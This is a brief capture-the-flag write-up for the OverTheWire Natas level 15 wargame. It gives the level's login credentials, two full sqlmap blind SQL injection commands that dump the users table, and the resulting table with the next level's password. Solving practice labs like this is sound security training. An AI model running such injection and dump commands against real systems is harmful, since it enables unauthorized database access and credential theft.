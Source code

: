 # Natas Level 15
The ***URL*** to which you need to connect is *http://natas15.natas.labs.overthewire.org*. The ***username*** is *natas15* and the ***password*** is *AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J*. 

Lets check the [viewsource](http://natas15.natas.labs.overthewire.org/index-source.html) link.
Lets test some user that we know: admin, natas15, natas16 ...

So we found that natas16 is one of the users in the sql table lets try to use [SQLMap](http://sqlmap.org/). Here's a [cheat sheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet) to the tool. 

```
python sqlmap.py -u "http://natas15.natas.labs.overthewire.org" --technique=B --string="This user exists" --auth-type=Basic --auth-cred=natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J --data "username=natas16" -D natas15 -T users -C username,password --dump --level=5 --risk=3
```
Or
```
sqlmap -u "http://natas15.natas.labs.overthewire.org" --technique=B --string="This user exists" --auth-type=Basic --auth-cred=natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J --data "username=natas16" -D natas15 -T users -C username,password --dump --level=5 --risk=3
```
```
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| bob      | 6P151OntQe                       |
| charlie  | HLwuGKts2w                       |
| alice    | hROtsfM734                       |
| natas16  | WaIHEacj63wnNIBROHeqi3p9t0m5nhmh |
+----------+----------------------------------+
```
